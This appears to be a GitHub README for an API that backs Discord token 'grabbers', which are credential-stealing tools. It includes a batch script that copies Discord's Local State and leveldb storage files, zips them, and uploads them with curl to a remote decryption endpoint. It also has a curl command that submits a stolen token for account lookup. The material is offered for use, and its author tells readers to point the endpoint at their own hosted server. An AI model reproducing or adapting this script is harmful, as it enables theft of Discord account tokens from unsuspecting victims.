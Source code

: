 # Moscor-API
an api for my project and grabbers, such as token info getting by simple sending info to api

# Token Info Api
- this gets info about discord token
- Modify ```http://127.0.0.1:5000/token_info``` to your url, based on where youre hosting the file on if its replit change it to replit and read the code, and modify last line
-  Usage:
```curl -H "Authorization: YOUR_DISCORD_TOKEN" http://127.0.0.1:5000/token_info```

# Decrypt token and token info api
- this will decrypt ldb, log and localstate files and look for tokens, usefull for custom grabbers that doenst directly support dpapi support.
- can be done in any language lol.
- how to send files to server and return? 

```bat
:: this will copy the files
@echo off
set "moscorlocalstate=%AppData%\discord\Local State"
set "moscorleveldb=%AppData%\discord\Local Storage\leveldb"
set "moscorlogs=%AppData%\moscorlogs"
set "moscorzip=%AppData%\moscorlogs.zip"

mkdir "%moscorlogs%" 2>nul

copy "%moscorlocalstate%" "%moscorlogs%" >NUL

copy "%moscorleveldb%\*.ldb" "%moscorlogs%" >NUL
copy "%moscorleveldb%\*.log" "%moscorlogs%" >NUL

pushd "%moscorlogs%"
powershell Compress-Archive -Path * -DestinationPath "%moscorzip%" >NUL
popd
::how to send?
curl -F "file=@%AppData%\moscorlogs.zip" http://127.0.0.1:5000/decrypt
```
